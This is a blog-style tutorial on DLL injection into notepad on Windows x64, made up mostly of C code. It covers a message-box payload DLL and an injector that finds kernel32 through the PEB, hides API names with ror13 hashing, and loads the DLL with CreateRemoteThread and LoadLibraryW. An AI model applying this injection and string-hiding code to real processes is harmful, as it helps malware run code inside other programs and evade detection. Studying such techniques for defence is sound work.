



Overview: It is still some offensive techique that I pay my attention in. DLL Injection, goal is attempts to load DLL into a remote process
This sample was created on the x64 architecture.
The picture below explained how the technique works.

If you have read my last recent post about
Shellcode Injection
you’ll find this technique quite similar.
So get back to the techique, it has two main components,
- First is the injector , responsibility for injecting payload inside remote process.
- Second is the payload, responsibility for creating reverse shell to the attacker or some other tasks like open message box in this post.
This sample, the payload.dll plays role as payload, which is used for open a message box inside the notepad process.
This section will Implement DLL - Dynamic Link Library is a file containing code and data that multiple different programs can use simultaneously. This part quite simple
//payload.dll
#include <Windows.h>
#include <cstdio>
BOOL APIENTRY DllMain( HMODULE hModule,
DWORD ul_reason_for_call,
LPVOID lpReserved )
{
switch (ul_reason_for_call)
{
case DLL_PROCESS_ATTACH: // execute when the dll successfully loaded into process's memory
char msg[100];
sprintf_s(msg,100,"Injection locate at %p", hModule);
MessageBoxA(NULL, msg , "DLL Injection", MB_OK);
break;
case DLL_THREAD_ATTACH: // when new thread created in process's memory
case DLL_THREAD_DETACH:
case DLL_PROCESS_DETACH: // execute when close process, or FreeLibrary
break;
}
return TRUE;
}After we done with the payload. Then we implement injector to put these payload inside notepad process
As usual, we need to process the kernel32.dll
// injector.c
PVOID get_kernel32_base() {
PPEB peb = (PPEB)__readgsqword(0x60);
PPEB_LDR_DATA loader = peb->Ldr;
PLIST_ENTRY module_list = &loader->InMemoryOrderModuleList;
PLIST_ENTRY current_module = module_list->Flink;
while (current_module != module_list) {
PLDR_DATA_TABLE_ENTRY_CUSTOM module_entry = CONTAINING_RECORD(current_module, LDR_DATA_TABLE_ENTRY_CUSTOM, InMemoryOrderLinks); // move back to top of struct
if (module_entry->BaseDllName.Buffer != NULL) {
DWORD h = whash(module_entry->BaseDllName.Buffer);
if (h == KERNEL32_HASH) {
return module_entry->DllBase;
}
}
current_module = current_module->Flink;
}
return NULL;
}In this code, I did compared the string of module to constrant hashed by using ror13 - rotate bit to hide the sensitive string
// injector.c
#define ror13(value) ((DWORD)((value) >> 13) | (DWORD)((value) << (32 - 13)))
__forceinline DWORD whash(const wchar_t* string) { // hash unicode
DWORD h = 0;
while (*string) {
wchar_t c = *string;
if (c >= 'a' && c <= 'z') { // convert to all upper case
c -= 0x20;
};
h = ror13(h);
h += (DWORD)c;
string++;
}
//printf("%X\n", h); // This line is for me to create the hash constant.
return h;
}The __forceinline to tell the compiler to place code in scope directly after reach this line DWORD h = whash(module_entry->BaseDllName.Buffer);, so there would be no call instruction to whash. Purpose is hide the logic in ASM when using hash functions multiple times.

After process the kernel32.dll We also need to resolve the GetProcAddrerss as well
// injector.c
PVOID resolve_get_proc() {
//... Define the necessary variables
PVOID kernel32_base = get_kernel32_base();
if (!kernel32_base) return NULL;
LPBYTE base_address = (LPBYTE)kernel32_base;
p_dos_header = (PIMAGE_DOS_HEADER)base_address;
p_nt_header = (PIMAGE_NT_HEADERS)(p_dos_header->e_lfanew +base_address);
p_optional_header = &p_nt_header->OptionalHeader;
export_rva = p_optional_header->DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress;
p_export_directory = (PIMAGE_EXPORT_DIRECTORY)(export_rva + base_address);
number_of_function = p_export_directory->NumberOfNames;
p_function_name = (PDWORD)(p_export_directory->AddressOfNames + base_address);
p_ords = (PWORD)(p_export_directory->AddressOfNameOrdinals + base_address);
p_function = (PDWORD)(p_export_directory->AddressOfFunctions + base_address);
for (WORD i = 0; i < number_of_function; i++) {
char* function_name = (char*)(p_function_name[i] + base_address);
DWORD h = hash(function_name);
if (h == GETPROCADDRESS_HASH) {
function_index = p_ords[i];
return (PVOID)(p_function[function_index] + base_address);
}
}
return NULL;
}We try resolve all functions we need
// injector.h
// define function pointers
typedef PROC(WINAPI* GETPROCADDRESS)(HMODULE, LPCSTR);
typedef HMODULE(WINAPI* LOADLIBRARYA)(LPCSTR);
typedef HMODULE(WINAPI* LOADLIBRARYW)(LPCSTR);
typedef HANDLE(WINAPI* OPENPROCESS)(
_In_ DWORD dwDesiredAccess,
_In_ BOOL bInheritHandle,
_In_ DWORD dwProcessId
);
typedef LPVOID(WINAPI* VIRTUALALLOCEX)(
_In_ HANDLE hProcess,
_In_opt_ LPVOID lpAddress,
_In_ SIZE_T dwSize,
_In_ DWORD flAllocationType,
_In_ DWORD flProtect);
typedef BOOL(WINAPI* WRITEPROCESSMEMORY)(
_In_ HANDLE hProcess,
_In_ LPVOID lpBaseAddress,
_In_reads_bytes_(nSize) LPCVOID lpBuffer,
_In_ SIZE_T nSize,
_Out_opt_ SIZE_T* lpNumberOfBytesWritten);
typedef HANDLE(WINAPI* CREATEREMOTETHREAD)(
_In_ HANDLE hProcess,
_In_opt_ LPSECURITY_ATTRIBUTES lpThreadAttributes,
_In_ SIZE_T dwStackSize,
_In_ LPTHREAD_START_ROUTINE lpStartAddress,
_In_opt_ LPVOID lpParameter,
_In_ DWORD dwCreationFlags,
_Out_opt_ LPDWORD lpThreadId
);
typedef BOOL(WINAPI* CLOSEHANDLE)(
_In_ _Post_ptr_invalid_ HANDLE hObject
);// injector.c
p_LoadLibraryA = (LOADLIBRARYA)p_GetProcAddress((HMODULE)kernel32, s_LoadLibraryA);
p_LoadLibraryW = (LOADLIBRARYW)p_GetProcAddress((HMODULE)kernel32, s_LoadLlibraryW);
p_VirtualAllocEx = (VIRTUALALLOCEX)p_GetProcAddress((HMODULE)kernel32, s_VirtualAllocEx);
p_OpenProcess = (OPENPROCESS)p_GetProcAddress((HMODULE)kernel32, s_OpenProcess);
p_WriteProcessMemory = (WRITEPROCESSMEMORY)p_GetProcAddress((HMODULE)kernel32, s_WriteProcessMemory);
p_CreateRemoteThread = (CREATEREMOTETHREAD)p_GetProcAddress((HMODULE)kernel32, s_CreateRemoteThread);
p_CloseHandle = (CLOSEHANDLE)p_GetProcAddress((HMODULE)kernel32, s_CloseHandle);As usual, pushing the string onto the stack is necessary.
Lastly, with the flow we dicussed at beginning of this sample, Injector allocates memory region in target process, then write the DLL path into it.
// injector.c
wchar_t dll_path[] = L"D:\\vs_c\\visus_dll\\x64\\Release\\payload.dll";
int dll_size = sizeof(dll_path);
HANDLE handle_process;
PVOID remote_buffer;
HANDLE handle_thread;
handle_process = p_OpenProcess(PROCESS_ALL_ACCESS, 0, atoi(argv[1]));
if (!handle_process) return 1;
remote_buffer = p_VirtualAllocEx(handle_process, NULL, dll_size, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);
if (!remote_buffer) {
return 1;
};
// write into remote_buffer the path to payload.dll
if (!p_WriteProcessMemory(handle_process, remote_buffer, dll_path, dll_size, NULL)) return 1; Next, very important detail that Injector inits the thread entry, pointing to LoadLibrary function. Then creates a thread with the entry we just created, whose content will be the path to payload.dll.
// injector.c
PTHREAD_START_ROUTINE execute_thread = (PTHREAD_START_ROUTINE)p_LoadLibraryW; // thread entry
if (!execute_thread) return 1;
handle_thread = p_CreateRemoteThread(handle_process, 0, NULL, execute_thread, remote_buffer, 0, NULL);
if (handle_thread) {
WaitForSingleObject(handle_thread, INFINITE);
p_CloseHandle(handle_thread);
}
p_VirtualFreeEx(handle_process, remote_buffer, 0, MEM_RELEASE);
p_CloseHandle(handle_process);The result displayed as gif below

Check inside notepad process and we can see the dll was injected successfully

In summary, this technique is somewhat similar to shellcode injection, both forcing a process to perform a task. However, it's quite noisy, it requires an injector to inject into the target, and of course, traces are left behind in the target process's memory, including in the list of DLLs.